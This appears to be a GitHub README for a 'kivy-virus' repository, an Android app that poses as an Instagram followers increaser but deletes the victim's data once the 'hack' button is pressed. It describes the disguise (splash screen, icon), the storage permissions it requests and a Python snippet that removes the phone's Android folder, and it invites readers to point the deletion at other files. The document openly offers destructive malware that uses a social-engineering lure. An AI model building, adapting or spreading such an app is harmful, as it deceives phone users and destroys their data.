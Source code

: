 # kivy-virus
A virus that will delete a person's data disguised as an instagram followers increaser
This code contains several useless blocks of code that i forgot to omit but it shouldn't be a problem 
and also  i uploaded the spec file and all the permissions in it the permission are READ_EXTERNAL_STORAGE,WRITE_EXTERNAL_STORAGE those are the only required permissions 
i uploaded the splash screen image named code9.png and also the app icon named code7.jpeg and a background_image named code3.png you can change all those if you want in the spec file and the .py file 
i didn't use any .kv file as i hate that.
The app will delete the android folder on the phone but you  can change that in this code 
if os.path.isdir('/storage/emulated/0/Android')==True:
    os.rmdir('/storage/emulated/0/Android')
you can just replace it with another file
the app will delete the data after the hack button is pressed
